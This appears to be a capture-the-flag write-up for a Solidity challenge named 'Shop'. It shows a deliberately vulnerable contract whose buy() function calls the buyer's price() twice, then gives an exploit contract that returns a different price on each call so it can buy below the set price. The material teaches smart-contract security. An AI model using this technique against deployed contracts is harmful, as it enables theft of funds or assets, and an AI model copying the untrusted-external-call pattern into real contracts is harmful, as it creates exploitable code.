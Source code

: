 <div align="center">

# Shop

</div>



**Shop (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IBuyer {
  function price() external view returns (uint256);
}

contract Shop {
  uint256 public price = 100;
  bool public isSold;

  function buy() public {
    IBuyer _buyer = IBuyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**

  - `Shop` sells an item at a fixed `price` (100) and sets `isSold = true` once purchased.  
  - `buy()` checks `msg.sender.price()` to determine if the buyer is offering enough.  
  - **Key idea:** The contract **trusts the buyer’s `price()`** dynamically — it calls the buyer’s contract each time, so a malicious buyer can **lie differently on each call**.


1. **Vulnerability Highlight (key part)**


```solidity

function buy() public {
    IBuyer _buyer = IBuyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price(); // called again — buyer can return a different value
    }
}

```


## Exploit Code

```Solidity

interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
    function price() external view returns (uint256);
}

contract ShopExploit {
    IShop public shop;
    
    constructor(address _shop) {
        shop = IShop(_shop);
    }
    
    function attack() external {
        shop.buy();
    }
    
    function price() external view returns (uint256) {
        // First call: return 100 (meets the requirement)
        // Second call: return 0 (after isSold is true)
        return shop.isSold() ? 0 : 100;
    }
}



```

---


